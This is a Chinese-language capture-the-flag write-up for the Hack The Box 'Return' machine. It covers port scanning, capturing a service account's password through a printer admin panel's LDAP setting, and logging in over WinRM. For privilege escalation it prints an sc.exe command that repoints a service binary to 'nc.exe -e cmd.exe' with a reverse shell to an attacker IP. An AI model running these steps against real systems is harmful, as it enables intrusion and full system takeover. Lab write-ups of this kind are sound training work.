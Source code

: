掃 port 最好全掃
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-27 03:21:50Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
5985/tcp  open     http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8562/tcp  filtered unknown
9389/tcp  open     mc-nmf         .NET Message Framing
```

其中可以注意的是 139 跟 445 port 這兩個有 SMB 服務 因此可以透過 `crackmapexec` 去爆破帳號密碼 `crackmapexec` 支援 `ssh,ldap,winrm,ftp,mssql,rdp,smb` 這些協議
但沒有找到東西
```
crackmapexec smb 10.10.11.108 --users  
```
![image](https://hackmd.io/_uploads/SycJwBVQyg.png)

開啟網站可以看到是一個印表機頁面 除了 setting 頁面其他沒東西可以使用
![image](https://hackmd.io/_uploads/BJH3DS4Qyg.png)

透過 burp 可以發現可以修改 ip 的位置 其他的不行
![image](https://hackmd.io/_uploads/HJMk_rNQyx.png)

因此可以透過修改 ip 成自己的位置 並監聽 389 port 看有沒有辦法獲得有用的資訊 成功獲得印表機憑證 `1edFg43012!!` 以及他的 username `svc-printer`
![image](https://hackmd.io/_uploads/SyNvdSNmJl.png)

由於在 nmap 時有發現有開啟 5985 port 也就是 `winrm` 服務 所以也用 `crackmapexec` 去探查看看  可以發現是可以做登入連線的

```
crackmapexec winrm 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```

![image](https://hackmd.io/_uploads/rkUAkUNmye.png)

此時可以利用 [evil-winrm](https://jtz.gitbook.io/web-security/gong-ju/duan-kou-fu-wu/5985-5986-winrm/evil-winrm) 進行連線 成功登入
```
evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```
![image](https://hackmd.io/_uploads/r19LZU4Xkg.png)

成功在 `desktop` 取得 `user.txt` : `10d781215e3d005c179f118a83b11e15`
![image](https://hackmd.io/_uploads/B1LeGIVmyg.png)

使用 `whoami /priv` 查看有哪些權限是我們當前用戶可以使用的
![image](https://hackmd.io/_uploads/B1q2SUEQyl.png)

查看此 user 資料發現有修改重啟系統的權限 那這時可以利用 `sc.exe` 對系統的二進制文件作修改
```
net user svc-printer
```
![image](https://hackmd.io/_uploads/ry27FUN71x.png)

這裡的原理是利用有修改重啟的權限 因此去修改服的二進制文件把 path 改成我們的 reverse shell 這樣重啟時啟動的就不是原本的程式 變成啟動 nc.exe 我們的監聽就可以聽到了

先使用 `services` 看有開啟的服務
![image](https://hackmd.io/_uploads/HyDhkPEmye.png)

使用以下 payload 去修改路徑
```
sc.exe config WMPNetworkSvc binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd.exe 10.10.15.39 4444"
```

可能會被 denied 找出可以修改的
![image](https://hackmd.io/_uploads/H1DrxwN7ke.png)

在 `VGAuthService` 成功修改路徑
![image](https://hackmd.io/_uploads/HkzigPVXJx.png)

重啟服務
```
sc.exe stop VGAuthService
sc.exe start VGAuthService
```

成功在 `C:\Users\Administrator\Desktop` 找到 flag : `eddb7d393ebc2b1959cfb416348cfd96`
![image](https://hackmd.io/_uploads/SkAEfPEQJe.png)

但速度要快 不然 30 秒後 time-out 又要重新連線一次
